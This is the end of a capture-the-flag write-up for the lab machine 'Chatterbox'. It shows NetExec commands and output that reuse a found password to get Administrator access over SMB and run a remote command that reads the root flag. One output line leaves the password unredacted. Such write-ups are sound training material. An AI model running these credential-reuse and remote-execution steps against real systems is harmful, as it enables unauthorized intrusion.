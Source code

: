 ```bash
nxc smb 10.129.238.144 -u 'Administrator' -p 'W[...SNIP...]' --shares
SMB         10.129.238.144  445    CHATTERBOX       [*] Windows 7 / Server 2008 R2 Build 7601 x32 (name:CHATTERBOX) (domain:Chatterbox) (signing:False) (SMBv1:True) 
SMB         10.129.238.144  445    CHATTERBOX       [+] Chatterbox\Administrator:W[...SNIP...] (Pwn3d!)
SMB         10.129.238.144  445    CHATTERBOX       [*] Enumerated shares
SMB         10.129.238.144  445    CHATTERBOX       Share           Permissions     Remark
SMB         10.129.238.144  445    CHATTERBOX       -----           -----------     ------
SMB         10.129.238.144  445    CHATTERBOX       ADMIN$          READ,WRITE      Remote Admin
SMB         10.129.238.144  445    CHATTERBOX       C$              READ,WRITE      Default share
SMB         10.129.238.144  445    CHATTERBOX       IPC$                            Remote IPC
```
Well would you look at that.. shame on them. Same password for Administrator. Let's see if we can grab the flag...
```bash
nxc smb 10.129.238.144 -u 'Administrator' -p 'W[...SNIP...]' -x 'type c:\users\administrator\desktop\root.txt'
SMB         10.129.238.144  445    CHATTERBOX       [*] Windows 7 / Server 2008 R2 Build 7601 x32 (name:CHATTERBOX) (domain:Chatterbox) (signing:False) (SMBv1:True) 
SMB         10.129.238.144  445    CHATTERBOX       [+] Chatterbox\Administrator:Welcome1! (Pwn3d!)
SMB         10.129.238.144  445    CHATTERBOX       [+] Executed command via wmiexec
SMB         10.129.238.144  445    CHATTERBOX       [Snipped Flag]
```

## Conclusion
There we go... easy peasy lemon squeazy. Like I said, I don't know if this machine was more difficult when it was released in 2018, but it's pretty cake now. It is still good practice for your python, netexec, and credential hunting skills though.
